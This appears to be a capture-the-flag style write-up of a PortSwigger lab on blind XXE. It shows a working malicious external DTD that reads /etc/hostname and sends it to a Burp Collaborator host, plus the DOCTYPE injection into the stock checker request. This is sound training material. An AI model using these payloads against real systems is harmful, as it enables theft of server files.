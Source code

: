 ## Lab Description: Exploiting blind XXE to exfiltrate data using a malicious external DTD

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/40250466-3829-44f4-9fae-2a861b33d9ca)


## Solution: 

Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Host this malicious.dtd file in our exploit server.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/90d56efc-7d4d-45fd-a56b-145a85f27b84)

Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/479160d9-bdaa-4371-bbc5-75bbaf5ba2e2)

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/fa03b73d-11d3-47e8-bbac-aa01082df5c7)

Insert the following external entity definition in between the XML declaration and the stockCheck element:
```
<!DOCTYPE stockchange [<!ENTITY % xxe SYSTEM "https://exploit-0af600e504347448810aa67d019700e4.exploit-server.net/exploit"> %xxe;]>
```

Here We have to post our exploit server url which will execute the DTD 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/7305e724-4d12-4091-bee1-f90d2e414297)

Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/0484cc41-5480-4851-bc94-45ac75bede43)

You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/91b48b0c-4e2e-4b77-bed0-74a337d375de)

Lab Solved

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/83bb45c6-5aec-419d-8702-e54320c5d1df)




